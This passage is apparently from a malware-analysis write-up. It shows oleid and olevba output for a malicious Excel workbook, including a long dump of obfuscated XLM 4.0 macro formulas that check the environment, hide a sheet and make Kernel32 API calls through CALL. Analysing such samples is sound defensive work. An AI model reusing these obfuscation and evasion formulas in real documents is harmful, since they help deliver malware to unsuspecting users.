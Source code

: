 ```rst
--------------------+--------------------+----------+--------------------------
XLM Macros          |Yes                 |Medium    |This file contains XLM    
                    |                    |          |macros. Use olevba to     
                    |                    |          |analyse them.             
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships    
Relationships       |                    |          |such as remote templates, 
                    |                    |          |remote OLE objects, etc   
--------------------+--------------------+----------+--------------------------
```

And Olevba goes further and reveals a lot of formulas:

```bash
' Sheet,Reference,Formula,Value
' c1zB0vasN,D8,"IF(GET.WORKSPACE(42),CONCATENATE(E394,F1194,F549,E635,O697,U208,T458,M868,Z4,U777),CONCATENATE(F394,F1194,E549,O635,U697,D777))",""
' c1zB0vasN,D9,GET.WORKSPACE(13),""
' c1zB0vasN,D10,GOTO(C1300),""
' c1zB0vasN,H60,"CONCATENATE(D187,P602,Y1087,L575)",""
' c1zB0vasN,I180,"CONCATENATE(E615,W1026)",""
' c1zB0vasN,D187,"CONCATENATE(K1036,D1095,Q603,B482)",""
' c1zB0vasN,Q222,"IF(GET.WORKSPACE(19),ON.TIME(NOW()+"00:00:02","rstegerg3"),CLOSE(TRUE))",""
' c1zB0vasN,O347,"CONCATENATE(I1324,M11,L54,F80,Y144,X179,P383)",""
' c1zB0vasN,K390,"CONCATENATE(R890,G625,D1023,O870)",""
' c1zB0vasN,U410,"CONCATENATE(B781,I781)",""
' c1zB0vasN,Y420,"CONCATENATE(B1193,F1204,W1216)",""
' c1zB0vasN,D450,"CONCATENATE(T7,V202)",""
' c1zB0vasN,D513,"CONCATENATE(Y841,L955,A1038,R1149,G1239)",""
' c1zB0vasN,N545,"WORKBOOK.HIDE("c1zB0vasNO",TRUE)",""
' c1zB0vasN,N546,GET.WORKSPACE(1),""
' c1zB0vasN,N547,"IF(ISNUMBER(SEARCH("Windows",N546)),ON.TIME(NOW()+"00:00:02","agawf23f"),CLOSE(FALSE))",""
' c1zB0vasN,L554,"CONCATENATE(D999,K1225)",""
' c1zB0vasN,L575,"CONCATENATE(F1242,W428,R608)",""
' c1zB0vasN,Q603,"CONCATENATE(Q1159,P1236,D1332,R27,W353,D434)",""
' c1zB0vasN,E615,"CONCATENATE(D999,L1217,M1256,U1315)",""
' c1zB0vasN,T698,"IF(OR(D9<700),ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","Lsl23Us7a"))",""
' c1zB0vasN,O752,"CONCATENATE(D8,D513)",""
' c1zB0vasN,B781,"CONCATENATE(E1006,T1063,D874,P180)",""
' c1zB0vasN,I781,"CONCATENATE(Y222,K1085,P765,I809,C877)",""
' c1zB0vasN,D874,"CONCATENATE(E1164,U1191,V1285,N11,E94)",""
' c1zB0vasN,R890,"CONCATENATE(J1273,U385,T673,R75,H865)",""
' c1zB0vasN,C953,"CONCATENATE(B358,Q771,K834,K924,D1020,M1175,F94)",""
' c1zB0vasN,D999,"CONCATENATE(X1224,P1281,U1293,G11,Q801)",""
' c1zB0vasN,R999,"",4.00000000000000000000
' c1zB0vasN,Q1000,CONCATENATE(U410),""
' c1zB0vasN,D1023,"IF(ISNUMBER(SEARCH("6.1",N546)),CONCATENATE(Z699,L932,J1190,C574,J644,A718,E813),CONCATENATE(A699,E932,K1190,J574,A644,Z718,W813))",""
' c1zB0vasN,D1024,GOTO(R1186),""
' c1zB0vasN,W1026,"CONCATENATE(B1334,B36,H461,G1019,U1036)",""
' c1zB0vasN,S1032,"CONCATENATE(M15,T86,S187,V106,R58,P1318,C194,M440)",""
' c1zB0vasN,S1035,"",4.00000000000000000000
' c1zB0vasN,C1040,"CONCATENATE(F1213,I1285,O347,X742)",""
' c1zB0vasN,P1047,"CONCATENATE(H730,C801,K802,S1032,C297,B358)",""
' c1zB0vasN,K1085,"CONCATENATE(G335,Q471,W570,F615,O686,V719)",""
' c1zB0vasN,Y1087,"CONCATENATE(T645,M750,N1097,V551,Z960,B994)",""
' c1zB0vasN,R1186,GET.WORKSPACE(1),""
' c1zB0vasN,R1187,"IF(NOT(ISNUMBER(SEARCH("7.0",R1186))),CLOSE(FALSE))",""
' c1zB0vasN,R1188,"CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner",0)",""
' c1zB0vasN,R1189,"CALL("Kernel32","CreateDirectoryA","JCJ","C:\rncwner\CkkYKlI",0)",""
' c1zB0vasN,J1190,"CONCATENATE(T1000,W1063,O1107,K1131,D517)",""
' c1zB0vasN,R1190,"CALL(F1220,Q1000,"JJCCJJ",0,H60,G1332,0,0)",""
```